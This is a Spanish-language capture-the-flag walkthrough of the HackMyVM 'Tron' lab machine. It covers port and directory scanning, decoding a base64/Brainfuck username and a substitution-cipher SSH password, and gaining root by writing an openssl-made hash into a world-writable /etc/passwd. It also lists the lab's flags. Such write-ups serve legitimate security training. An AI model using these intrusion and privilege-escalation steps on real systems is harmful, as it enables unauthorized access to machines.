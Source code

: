```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Tron HackMyVM (Easy- Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-10 02:16 EDT
Nmap scan report for 192.168.1.172
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f:ed:64:93:84:b5:b2:e8:af:5a:0e:6f:52:af:4b:48 (RSA)
|   256 3d:df:6f:02:13:9e:15:f8:51:94:30:f8:45:e3:f2:93 (ECDSA)
|_  256 2f:f4:af:e1:f4:c4:a5:3b:50:bb:e5:b9:2a:9f:39:de (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Master Control Program
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:8B:31:4C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.62 seconds
```

Veremos que hay un puerto `80` levantado, por lo que si entramos en el veremos una pagina normal y corriente, vamos a realizar un poco de `fuzzing` para ver que podemos ver.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.172/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 309]
/.html                (Status: 403) [Size: 278]
/img                  (Status: 200) [Size: 936]
/manual               (Status: 200) [Size: 626]
/robots.txt           (Status: 200) [Size: 623]
/font                 (Status: 200) [Size: 935]
/.html                (Status: 403) [Size: 278]
/MCP                  (Status: 200) [Size: 1140]
/server-status        (Status: 403) [Size: 278]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos de todo esto una ruta bastante interesante llamada `/MCP` vamos a probar a entrar dentro de la misma.

Si entramos dentro veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay varios archivos, pero si nos descargamos el archivo llamado `tron.txt` veremos lo siguiente:

```
MASTER CONTROL PROGRAM
----------------------

Ram:
Do you believe in the Users?

Crom:
Sure I do! If I didn't have a User, than who wrote me? 


KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==
```

Vemos que hay un codigo cifrado, por lo que vamos a intentar decodificarlo de la siguiente forma:

```shell
echo "KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==" | base64 -d
```

Info:

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>++++++++++++.----.-----------.++++++++++++++++++++++++.--------------------.+++++++++++++.
```

Vemos que nos da otro codigo codificado que esta en formato `brainfuck` por lo que si lo decodificamos se quedara algo asi:

```
player
```

Vemos que sera un nombre de usuario, ahora si nos vamos a `terminalserver` -> `30513.txt` veremos esto:

```
substitute
--------------------------
plaintext
abcdefghijklmnopqrstuvwxyz

ciphertext
zyxwvutsrqponmlkjihgfedcba
--------------------------
```

Vemos que esto puede ser como un codigo para poder decodificar algo que este por ahi, por lo que vamos a investigar un poco.

Buscando un rato, si vamos a la pagina principal e inspeccionamos el codigo veremos lo siguiente:

```html
<!-- kzhh:SbWP9q94ZtE9qD  -->
```

Vamos a utilizar esto para aplicar la decodificacion de sustitucion con la palabra que encontramos a ver que vemos:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado y la contraseña de `player` es `SyWP9j94ZgE9jD` por lo que vamos a conetcarnos por `SSH`.

### SSH

```shell
ssh player@<IP>
```

Metemos como contraseña `SyWP9j94ZgE9jD` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVMuserplayer2021
```

## Escalate Privileges

Despues de buscar un rato si hacemos lo siguiente:

```shell
find /etc -type f -writable 2>/dev/null
```

Info:

```
/etc/passwd
```

Veremos que podemos sobreescribir el archivo `passwd`, por lo que podremos hacer lo siguiente:

Antes codificaremos la contraseña para que la admita en el archivo `passwd`.

```shell
openssl passwd 1234
```

Info:

```
$1$YoLbOiy7$eDZyWwzWVII2TQyt3qjTH.
```

Ahora en la maquina victima vamos a establecerle dicha contraseña codificada a `root`.

```shell
nano /etc/passwd

#Dentro del nano
root:x:0:0:root:/root:/bin/bash #Pasamos de esto
root:$1$YoLbOiy7$eDZyWwzWVII2TQyt3qjTH.:0:0:root:/root:/bin/bash #<--------------- Ha esto
```

Lo guardamos y realizamos lo siguiente:

```shell
su root
```

Metemos como contraseña `1234` y veremos que seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
HMVMMasterControlProgram2021
```
